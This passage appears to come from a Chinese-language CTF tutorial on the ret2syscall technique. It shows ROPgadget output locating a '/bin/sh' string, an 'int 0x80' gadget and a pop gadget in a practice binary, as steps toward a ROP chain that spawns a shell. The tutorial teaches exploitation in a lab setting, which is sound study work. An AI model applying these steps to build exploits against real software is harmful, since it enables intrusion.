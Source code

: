 选择第24行，正好可以将后面两个寄存器的值一起填充，地址为0x0806eb90

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```

/bin/sh字符串的位置在0x080be408

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```

int 0x80的地址在0x08049421

具体执行过程如下：

[![](assets/1701606411-65f1a2b5c4b33616fb2ca44a7cfc240b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129203340-86b99264-8eb3-1.png)
